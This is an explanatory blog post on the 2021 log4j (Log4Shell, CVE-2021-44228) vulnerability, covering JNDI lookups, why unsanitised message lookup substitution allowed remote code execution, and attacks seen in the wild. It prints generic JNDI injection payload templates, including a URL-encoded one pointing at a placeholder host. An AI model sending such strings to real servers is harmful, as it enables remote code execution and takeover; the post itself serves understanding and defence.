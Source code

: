 ```yaml
---
title: "Understanding the log4j global security incident"
date: 2021-12-30T21:24:23+11:00
draft: false
image: img/Post6.jpg
tags: ['Learning', 'Vulnerability']
---
```


## What is the log4j incident?

Apache log4j is an open-source logging framework used with the java programming language. It is a popular framework widely used across various industries, from video games such as Minecraft to hospital equipment and other programs.

Researchers from Alibaba Cloud Security Team discovered a vulnerability in the framework and reported it to Apache on the 24th of November 2021. The vulnerability was then released through a Twitter post to the world on the 9th of December 2021.

This vulnerability with log4j, tracked within the National Vulnerability Database as [**CVE-2021-44228**](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), or more colloquially known as **log4shell**, comes with an ability to remotely execute code, making it very dangerous when used by cyber attackers.

Attackers can exploit the log4j vulnerability to perform a variety of cyber-attacks, such as force the server that is running log4j to install any software the attacker wants, including software that can completely take over the server. within a few days of the exploit being released, cybersecurity company [Akamai Technologies Inc.](https://www.akamai.com/blog/security/threat-intelligence-on-log4j-cve-key-findings-and-their-implications) tracked over **10 million attempts to exploit log4j each hour**.

## Background Information

In Java programming, **logging** is a term to describe keeping records of all data input and output, and any changes made in an application. Logging is simply keeping a record of all the events in an application and is mainly used for debugging and tracking the history of changes.

A logging framework is usually a third-party application used to help ease and standardise the process of logging information across an application. Apache log4j is a popular and widely-used example of these third-party applications.

The log4j framework can look up information, such as Event lookups, Date lookups or JNDI (Java Naming and Directory Interface) lookups, to name a few examples. It uses the JDNI API to correlate these lookups against different record providers, such as DNS (Domain Name Service), RMI (Remote Method Invocation) or the others seen in the image below. An overview of JDNI can be found [here](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html).

{{< figure src="https://docs.oracle.com/javase/jndi/tutorial/figures/jndi/getStarted/jndiarch.jpg" title="JDNI API. Figure Source: Oracle Documentation" height="500" width="500" >}}

The log4shell vulnerability takes advantage of log4j not performing input validation and not sanitising any URL's passed through input messages. Log4j does not verify the JNDI and LDAP (Lightweight Directory Access Protocol) requests. Therefore, attackers can execute malicious Java code on any server, as log4j blindly trusts all user input.

## How log4j works

Log4j has a feature named **message lookup substitution**. This feature allows log4j to automatically detect strings (meaning text written by users) that point to JDNI resources. Before the latest update, this feature was enabled automatically and was partially responsible for the remote code execution vulnerability that came to be known as log4shell.

The **message lookup substitution** feature in log4j had no in-built rules governing acceptable user input, and as a result would not sanitise and remove any unnecessary input, including URL's. This automatically enabled feature combined with the lack of filtering of input allowed attackers to send malicious requests to applications using log4j with little effort.

{{< figure src="https://news.sophos.com/wp-content/uploads/2021/12/log4j_how-1.png" title="Log4j Explanied. Figure Source: SophosLabs" height="700" width="700">}}

With HTTP communications specifically, the malicious string could be sent through any part of the HTTP request that would be logged by the receiving application. As seen in the diagram above, the **User-Agent** field in the "Normal Log4j Scenario" would contain details of the user's browser. An attacker is able to modify this information and instead send a string that would invoke the JNDI interface.

This malicious string can be crafted in many ways, but was commonly in the form of:

```text
${jndi:[service]://[lookup address]}
```

In this example, JNDI can call upon services such as LDAP, LDAPS, DNS or Java's RMI to assist in the lookup.

The lookup address is the URL that would be queried and fetched as Java code.

Another technique would include URL-encoded payloads, this would look like:

```text
$%7Bjndi:ldap:/x.x.x.x:3339/[malicious exploit]%7D
```

This technique is more straightforward for an attacker to execute, and involves replacing characters with UTF-8 encoded characters. The '**{**' bracket is written instead as '**%7B**', for example.

When the receiving server logged this malicious request, the log4j vulnerability would be triggered and the commands crafted by the attacker would be executed.

## What known cyberattacks resulted from log4j?

Since the log4shell vulnerability is relatively simple to exploit, millions of cyber attacks have resulted from it within a few days of it being released.

Microsoft has reported cyber attacks involving attackers installing crypto mining software such as XMRig cryptocurrency miner on servers. Similarly, attackers have also tried to install botnet malware on servers, such as Muhstik botnet, as well as malicious java code that can create and active a backdoor in a server for attackers to later exploit.

Khonsari and Conti randomware threats have also been reported, alongside many other malwares. More information about publicly reported payloads can be found at [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/log4j-vulnerabilities-attacks).

The best fix to this vulnerability is to update all servers using Apache Log4j to version 2.15.0 or later, and to continue checking to more future updates as good practice.
